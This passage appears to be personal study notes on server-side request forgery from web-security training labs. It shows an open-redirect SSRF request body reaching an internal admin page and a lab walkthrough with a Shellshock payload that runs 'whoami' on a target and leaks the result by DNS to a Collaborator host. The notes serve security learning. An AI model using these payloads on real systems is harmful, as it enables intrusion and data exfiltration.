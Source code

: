 ```js
Content-Length: 118  
  
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
- this exploit works because it first validate allowed domain and request trigger `open redirect` to make request to desired domain.

# blind SSRF
- it arise when application can be induced to issue a back-end HTTP request to supplied URL, but the Request from the Back-end request is not returned to front-end application.
- it is harder to exploit but it can lead to full `RCE`.

## Impact
- impact is lower than fully informed SSRF because of their one-way nature. but in some situation it exploited to achieve `RCE`

## How to Find and Exploit Blind SSRF
- the most of the way to detect Blind SSRF is Using `Out of band (OAST)` technique. that trigger HTTP request to external system That we control.
- we can also use `Burp Collaborator`.
- simply identifying Blind SSRF trigger Out-of-band HTTP request doesn't provide route to exploitability. since we can not view the response from the back-end request.
- some Blind SSRF can be found in `Referer: `header in the http Request.

## Blind SSRF with ShellShock exploitation.
-   In [Burp Suite Professional](https://portswigger.net/burp/pro), install the "Collaborator Everywhere" extension from the BApp Store.
-   Add the domain of the lab to Burp Suite's [target scope](https://portswigger.net/burp/documentation/desktop/tools/target/scope), so that Collaborator Everywhere will target it.
-   Browse the site.
-   Observe that when you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header.
-   Observe that the HTTP interaction contains your User-Agent string within the HTTP request.
-   Send the request to the product page to Burp Intruder.
-   Use `Burp Collaborator client` to generate a unique Burp Collaborator payload, and place this into the following Shellshock payload: `() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net`
-   Replace the User-Agent string in the Burp Intruder request with the Shellshock payload containing your Collaborator domain.
- change the `Referer: ` header to `http://192.168.0.221` here `SSRF` vulnerability is in `Referer:` header and there is some internal system that doesn't directly to outer network.
-   we request to that internal systems `http://internal-ip ` and brute force it to find which system is active and use `shell shock` vulnerability to exploit it to `RCE`.
-   go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously. You should see a DNS interaction that was initiated by the back-end system that was hit by the successful blind `SSRF attack`. The name of the OS user should appear within the DNS subdomain.
 